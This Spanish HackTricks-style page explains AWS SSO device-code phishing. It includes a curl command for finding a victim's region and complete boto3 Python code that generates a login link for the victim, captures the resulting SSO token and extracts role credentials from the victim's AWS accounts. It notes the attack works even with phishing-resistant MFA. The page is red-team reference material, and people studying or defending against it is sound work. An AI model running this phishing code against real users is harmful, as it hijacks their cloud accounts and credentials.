 # AWS - Enumeración no autenticada del Centro de Identidad y SSO

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Phishing de Código de Dispositivo de AWS

Inicialmente propuesto en [**esta publicación de blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), es posible enviar un **enlace** a un usuario utilizando AWS SSO que, si el **usuario acepta**, el atacante podrá obtener un **token para suplantar al usuario** y acceder a todos los roles a los que el usuario puede acceder en el **Centro de Identidad**.

Para llevar a cabo este ataque, se necesitan los siguientes requisitos:

* La víctima debe usar el **Centro de Identidad**
* El atacante debe conocer el **subdominio** utilizado por la víctima `<subdominiovictima>.awsapps.com/start`

Solo con esta información previa, el **atacante podrá enviar un enlace al usuario** que, si es **aceptado**, otorgará al **atacante acceso a la cuenta de usuario de AWS**.

### Ataque

1. **Encontrar el subdominio**

El primer paso del atacante es descubrir el subdominio que la empresa víctima está utilizando en su Centro de Identidad. Esto se puede hacer a través de **OSINT** o **adivinando + BF** ya que la mayoría de las empresas estarán utilizando su nombre o una variación de su nombre aquí.

Con esta información, es posible obtener la región donde se configuró el Centro de Identidad:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generar el enlace para la víctima y enviarlo**

Ejecuta el siguiente código para generar un enlace de inicio de sesión de AWS SSO para que la víctima pueda autenticarse.\
Para la demostración, ejecuta este código en una consola de Python y no la cierres, ya que más adelante necesitarás algunos objetos para obtener el token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **Espera hasta que la víctima lo acepte**

Si la víctima ya estaba **conectada en AWS**, solo necesitará aceptar otorgar los permisos, si no lo estaba, necesitará **iniciar sesión y luego aceptar otorgar los permisos**.\
Así es como se ve el mensaje en la actualidad:

<figure><img src="../../../.gitbook/assets/image (154).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Obtener el token de acceso SSO**

Si la víctima aceptó el mensaje, ejecuta este código para **generar un token SSO suplantando al usuario**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
El token de acceso SSO es **válido por 8 horas**.

5. **Suplantar al usuario**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Suplantación de identidad en el MFA inquebrantable

Es interesante saber que el ataque anterior **funciona incluso si se está utilizando un "MFA inquebrantable" (webAuth)**. Esto se debe a que el **flujo de trabajo anterior nunca abandona el dominio OAuth utilizado**. A diferencia de otros ataques de phishing donde el usuario necesita suplantar el dominio de inicio de sesión, en este caso el flujo de trabajo del código de dispositivo está preparado para que un **código sea conocido por un dispositivo** y el usuario pueda iniciar sesión incluso en una máquina diferente. Si se acepta la solicitud, el dispositivo, solo con **conocer el código inicial**, podrá **recuperar las credenciales** del usuario.

Para obtener más información sobre esto, [**consulte esta publicación**](https://mjg59.dreamwidth.org/62175.html).

### Herramientas automáticas

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Referencias

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
